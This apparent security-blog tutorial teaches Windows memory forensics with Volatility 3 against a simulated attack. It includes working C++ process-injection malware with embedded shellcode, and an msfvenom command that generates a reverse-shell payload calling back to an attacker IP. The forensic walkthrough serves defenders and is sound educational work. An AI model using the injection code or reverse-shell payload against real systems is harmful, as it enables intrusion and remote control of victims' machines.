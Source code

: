```yaml
---
title:  "Basic memory forensics with Volatility. Process injection example."
date:   2022-02-07 10:00:00 +0600
header:
  teaser: "/assets/images/39/2022-02-08_19-11.png"
categories: 
  - tutorial
tags:
  - red team
  - blue team
  - malware
  - forensics
  - volatility
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/39/2022-02-08_19-11.png){:class="img-responsive"}    

This is a self-researching of memory forensics via Volatility Framework.    

### Memory forensics

Sometimes, after a system has been pwned, it's important to extract forensically-relevant information. RAM is considered volatile - meaning that it doesn't live long. Each time a computer is restarted, it flushes its memory from RAM, which means that, if a computer is hacked and then is restarted, you'll lose a lot of information that tells the story about how the system was compromised by attacker.    

### Volatility Framework

Volatility is a tool that can be used to analyze the volatile memory of a system. Download and install from [here](https://github.com/volatilityfoundation/volatility3)        

### Practice example

First of all, for simulating malware activity, create [classic](/tutorial/2021/09/18/malware-injection-1.html) process injection malware:    

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// meow-meow messagebox payload (without encryption)
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

compile:

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection 2](/assets/images/39/2022-02-07_13-48_1.png){:class="img-responsive"}    

and run:   

```bash
.\hack.exe 2380
```

![injection 3](/assets/images/39/2022-02-09_00-04.png){:class="img-responsive"}    

As you can see, everything is work perfectly.    

### Winpmem

Secondly, after run our malicious activity, I downloaded `winpmem` into victim's Windows 7 x64 machine. So, run:   

```cmd
>.\winpmem_v3.3.rc3.exe --output mem.raw --format raw --volume_format raw
```

![injection 4](/assets/images/39/2022-02-07_23-06.png){:class="img-responsive"}    

After finished, move `mem.raw` file to my attacker's kali machine.   

### Analyzing Windows Memory

#### Obtaining OS

Obtaining the operating system of the memory dump is pretty easy. The plugin `windows.info.Info` can be specified to enumerate information about the captured memory dump:   

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw windows.info.Info
```
![injection 5](/assets/images/39/2022-02-07_22-59.png){:class="img-responsive"}    

#### Analysing processes

Then, I used the `windows.pslist.PsList` plugin to look at the processes that were running on the victim's computer at the time the memory was captured:    

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw windows.pslist.PsList
```
![injection 6](/assets/images/39/2022-02-07_22-59_1.png){:class="img-responsive"}    
![injection 7](/assets/images/39/2022-02-07_23-10.png){:class="img-responsive"}    

Looking at the list, PID `2380` is `mspaint.exe`, which is our victim process.    

### Process injected code   

Then for finding hidden and injected code, run:   

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw windows.malfind.Malfind 
```
![injection 8](/assets/images/39/2022-02-09_00-54.png){:class="img-responsive"}    

![injection 9](/assets/images/39/2022-02-07_23-13.png){:class="img-responsive"}    

As you can see, we found memory section which we injected our `meow-meow` payload.    

Then, dump the process memory with `windows.memmap.Memmap` plugin:       

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw --output-dir ./cybersec_blog/2022-02-07-mem-forensics-1/dump/ windows.memmap.Memmap --pid 2380 --dump 
```

![injection 10](/assets/images/39/2022-02-07_23-17.png){:class="img-responsive"}    

### Finding strings

The `strings` command is a popular static malware analysis tool that can quickly assist in extracting human-readable pertaining to a malicious file:    

```bash
strings -e l ./cybersec_blog/2022-02-07-mem-forensics-1/dump/pid.2380.dmp | grep -ie "meow-meow"
```

![injection 11](/assets/images/39/2022-02-07_23-19.png){:class="img-responsive"}    

![injection 12](/assets/images/39/2022-02-07_23-20.png){:class="img-responsive"}    

### Network connections

Next, I tested a scenario in which a malware or an attacker injects code into an already running process, and only then initiates a connection. Let's go to replace our payload in malware example as `msfvenom` reverse shell for demo:   

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.2.6 LPORT=4444 EXITFUNC=thread -f c
```

![injection 13](/assets/images/39/2022-02-08_18-51.png){:class="img-responsive"}    

![injection 14](/assets/images/39/2022-02-08_18-57.png){:class="img-responsive"}    

For the correctness of the experiment, we will launch our malware and make a memory dump:

![injection 15](/assets/images/39/2022-02-09_02-27.png){:class="img-responsive"}    

![injection 16](/assets/images/39/2022-02-09_02-32.png){:class="img-responsive"}    

Then run Volatility with `windows.netstat.NetStat` plugin. This plugin allows you to see the network connections on the machine at the time the memory was captured:        

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw windows.netstat.NetStat | grep -ie "mspaint.exe" 
```

![injection 17](/assets/images/39/2022-02-09_02-36.png){:class="img-responsive"}    

### Conclusion

There are still a ton of other plugins that are currently available that I did not mention in this tutorial and the memory sample I were analyzing was a Windows memory dump, because I did not work with the different plugins that target the Linux and Mac operating systems.   

I hope this post will be very helpful for entry level cybersec specialists from blue team.    

[Volatility3](https://github.com/volatilityfoundation/volatility3)    
[Classic code injection technique](/tutorial/2021/09/18/malware-injection-1.html)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*




